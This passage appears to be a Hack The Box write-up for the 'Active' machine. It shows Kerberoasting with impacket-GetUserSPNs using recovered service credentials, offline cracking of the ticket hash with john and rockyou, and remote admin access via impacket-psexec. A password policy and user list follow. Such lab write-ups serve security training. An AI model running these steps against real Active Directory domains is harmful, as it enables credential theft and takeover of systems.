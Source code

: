 With the credentials `SVC_TGS:GPPstillStandingStrong2k18` you can perform a remote Kerberoasting attack
```bash
impacket-GetUserSPNs -dc-ip 10.10.10.100 active.htb/SVC_TGS:GPPstillStandingStrong2k18 -request -outputfile kerberoast.hashes
```
Which gets you a ticket for the Administrator SPN.

You can then crack it offline:
```bash
john --wordlist=/usr/share/wordlists/rockyou.txt kerberoast.hashes

Ticketmaster1968 (?)
```

And use the cracked password to remote into the box.

```bash
impacket-psexec active.htb/Administrator:Ticketmaster1968@10.10.10.100
```

## Privilege Escalation
You drop into this box as SYSTEM.

## Domain Information
### Password Policy
```
Minimum password length: 7
Password history length: 24
Maximum password age: 41 days 23 hours 53 minutes 
             
Password Complexity Flags: 000001
Domain Refuse Password Change: 0
Domain Password Store Cleartext: 0
Domain Password Lockout Admins: 0
Domain Password No Clear Change: 0
Domain Password No Anon Change: 0
Domain Password Complex: 1
             
Minimum password age: 1 day 4 minutes 
Reset Account Lockout Counter: 30 minutes 
Locked Account Duration: 30 minutes 
Account Lockout Threshold: None
Forced Log off Time: Not Set
```

### Users
```
Administrator
Guest
krbtgt
SVC_TGS
```
